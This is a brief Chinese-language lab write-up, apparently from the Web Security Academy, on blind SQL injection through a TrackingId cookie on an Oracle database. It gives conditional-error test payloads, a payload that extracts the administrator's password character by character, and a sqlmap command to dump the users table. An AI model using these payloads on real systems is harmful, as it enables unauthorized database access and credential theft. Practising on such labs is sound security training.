

确定cookie中的TrackingId 能够sql注入

判断语句：

```javascript
TrackingId=9pD3eC5YpJtrML6B'
+UNION+SELECT+CASE+WHEN+(1=2)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+dual--
```

返回正确页面

```javascript
TrackingId=9pD3eC5YpJtrML6B'
+UNION+SELECT+CASE+WHEN+(1=1)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+dual--
```

返回错误页面


判断可以布尔盲注


注入语句：

```javascript
TrackingId='+UNION+SELECT+CASE+WHEN+(username='administrator'
+AND+substr(password,1,1)='§a§')+THEN+to_char(1/0)+ELSE+NULL+END+FROM+users--
```





sqlmap注入paylaod:

```javascript
sqlmap -u"https://ac891ffd1f32f6ae80db46b200f7003a.web-security-academy.net" 
--dump -T"users" -D"SYSTEM" 
--cookie="TrackingId=9pD3eC5YpJtrML6B; session=hwdAmAUwX0nlRwgriZ5Xls0nyJpTIzDw" 
--level 2 --skip="session" --dbms "oracle"
```

